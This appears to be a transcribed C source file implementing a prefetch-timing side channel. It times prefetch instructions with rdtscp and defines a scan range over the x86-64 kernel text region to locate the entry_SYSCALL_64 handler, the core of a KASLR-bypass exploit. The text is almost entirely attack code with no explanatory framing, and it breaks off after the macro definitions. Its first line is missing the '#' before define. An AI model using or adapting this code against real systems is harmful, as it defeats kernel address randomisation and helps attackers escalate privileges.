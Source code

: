 ```c
define _GNU_SOURCE
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <sys/mman.h>
#include <sys/ucontext.h>
#include <err.h>
#include <sys/syscall.h> /* Definition of SYS_* constants */
#include <unistd.h>
#include <stdint.h>
#include <fcntl.h>
#define SYSCHK(x) ({              \
    typeof(x) __res = (x);        \
    if (__res == (typeof(x))-1)   \
        err(1, "SYSCHK(" #x ")"); \
    __res;                        \
})

#define PAUSE           \
    {                   \
        printf(":");    \
        int x;          \
        read(0, &x, 1); \
    }

#define KERNEL_LOWER_BOUND 0xffffffff80000000ull
#define KERNEL_UPPER_BOUND 0xffffffffc0000000ull
#define entry_SYSCALL_64_offset 0x400000ull
    
uint64_t sidechannel(uint64_t addr)
{
    uint64_t a, b, c, d;
    asm volatile(".intel_syntax noprefix;"
                 "mfence;"
                 "rdtscp;"
                 "mov %0, rax;"
                 "mov %1, rdx;"
                 "xor rax, rax;"
                 "lfence;"
                 "prefetchnta qword ptr [%4];"
                 "prefetcht2 qword ptr [%4];"
                 "xor rax, rax;"
                 "lfence;"
                 "rdtscp;"
                 "mov %2, rax;"
                 "mov %3, rdx;"
                 "mfence;"
                 ".att_syntax;"
                 : "=r"(a), "=r"(b), "=r"(c), "=r"(d)
                 : "r"(addr)
                 : "rax", "rbx", "rcx", "rdx");
    a = (b << 32) | a;
    c = (d << 32) | c;
    return c - a;
}

#define STEP 0x100000ull
#define SCAN_START KERNEL_LOWER_BOUND + entry_SYSCALL_64_offset
#define SCAN_END KERNEL_UPPER_BOUND + entry_SYSCALL_64_offset

#define DUMMY_ITERATIONS 5
```